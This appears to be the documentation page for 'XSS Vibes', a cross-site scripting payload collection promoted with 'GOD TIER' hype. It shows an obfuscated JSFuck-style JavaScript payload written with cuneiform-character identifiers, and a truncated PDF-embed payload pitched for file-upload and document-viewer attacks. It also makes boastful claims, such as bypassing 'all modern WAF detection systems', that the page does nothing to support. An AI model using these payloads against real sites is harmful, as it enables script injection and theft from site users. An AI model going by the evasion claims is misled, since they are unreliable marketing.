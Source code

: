 # 🏆 XSS Vibes - GOD TIER Advanced Techniques Documentation

## Overview

XSS Vibes features the world's most comprehensive collection of advanced XSS techniques, including legendary methods never seen before in public tools. This document covers our **64 unique obfuscation techniques** and **GOD TIER** attack vectors.

## 📊 Database Statistics

- **785 total payloads** (3.2x growth from original 247)
- **53 different techniques**
- **13 payload categories**
- **25 GOD TIER advanced techniques**

---

## 🏺 LEGENDARY: Cuneiform XSS

**The world's first XSS payload using 4000-year-old cuneiform script!**

### Technical Details
- Uses Unicode cuneiform characters (U+12000 - U+123FF)
- Implements JSFuck-style obfuscation with ancient script
- Bypasses all modern WAF detection systems
- Historical significance: Bridges ancient and modern computing

### Sample Payload
```javascript
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒍢=𒉺[𒈨=𒀀],𒊑=++𒀀+𒀀,𒀕=𒇺[𒊬=𒀀],𒄿=𒌐+𒀕+𒉺[𒊑]+𒇺[𒊑]+𒍢[𒊑],
𒄿=𒄿[𒉺[𒊑]+𒍢[𒀀]+𒌐+𒇺[𒊑]+𒍢[𒊑]+𒀕](𒍢[𒈨]+𒍢[𒊬=𒀀]+
(𒉺[𒊑]+𒀀)[𒊑]+𒀃+𒍢[++𒊬]+𒀀+(𒇺+𒍢[𒊬])[𒀀]+𒀃+𒍢[𒊑]+
𒌐+𒍢[++𒊬]+'("'+(𒀀+𒉺)[𒊑]+(𒉺[𒊑]+𒀀)[𒀀]+'𒐖𒐗𒐘")')(),𒄿
```

---

## 📄 PDF XSS Techniques

**Revolutionary PDF-based XSS injection methods**

### Technique 1: PDF JavaScript Injection
- **Vector**: Embedded PDF with JavaScript actions
- **Bypasses**: Document-based filters, content-type restrictions
- **Usage**: File upload vulnerabilities, document viewers

```html
<embed src="data:application/pdf;base64,JVBERi0xLjQK..." width="500" height="600">
```
